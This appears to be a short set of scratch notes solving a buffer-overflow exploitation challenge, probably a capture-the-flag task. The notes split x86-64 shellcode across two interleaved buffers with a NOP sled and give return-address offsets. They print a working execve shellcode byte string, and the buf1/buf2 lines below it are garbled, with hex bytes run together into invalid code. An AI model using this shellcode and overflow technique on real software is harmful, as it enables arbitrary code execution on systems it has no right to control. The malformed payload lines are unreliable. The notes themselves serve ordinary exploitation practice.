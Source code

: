 1. file compiled with execstack,  likely a shellcode buffer overflow.
2. buf1 and 2 terminated with 0, unlikely to be attack. use buf instead.

code:
buf[0] = buf1[0] + buf2[63]
buf[1] = buf1[63] + buf2[0]
buf[2] = buf1[1] + buf2[63]
...

- buf1[63] = buf2[63] = 0
- byte1/2 4 bytes gone, compare with each other -> noop sled?
- noop = 0x90
- shellcode: `\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05`
therefore:
buf2 = b"\x90" * 4 + 0xc00xbb0x9d0x910x8c0xff0xf70x530x5f0x520x540xb00xf
buf1 = b"\x90" * 4 + 0x310x480xd10x960xd00x970x480xdb0x540x990x570x5e0x3b0x5
receive input from stdout to get offset. pad buf12 w/ 0x90 to overflow retn
rip @958, buf @ 900